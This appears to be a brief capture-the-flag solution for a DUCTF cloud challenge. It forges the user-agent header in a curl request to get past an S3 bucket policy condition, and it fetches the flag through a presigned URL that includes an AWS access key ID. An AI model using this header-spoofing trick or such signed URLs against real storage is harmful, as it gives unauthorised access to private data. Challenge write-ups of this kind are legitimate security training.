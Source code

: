 Spoof user agent to meet the condition in the resource policy.

`curl -A "aws-sdk-go/1.44.0" "https://kickme-95f596ff5b61453187fbc1c9faa3052e.s3.us-east-1.amazonaws.com/flag.txt?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAXC42U7VJ7MRP6INU%2F20250715%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20250715T124755Z&X-Amz-Expires=604800&X-Amz-SignedHeaders=host&X-Amz-Signature=6cefb6299d55fb9e2f97e8d34a64ad8243cdb833e7bdf92fc031d57e96818d9b"`

Flag: DUCTF{youtube.com/watch?v=A20QQSZsv4E}

Solved by: 0xad3n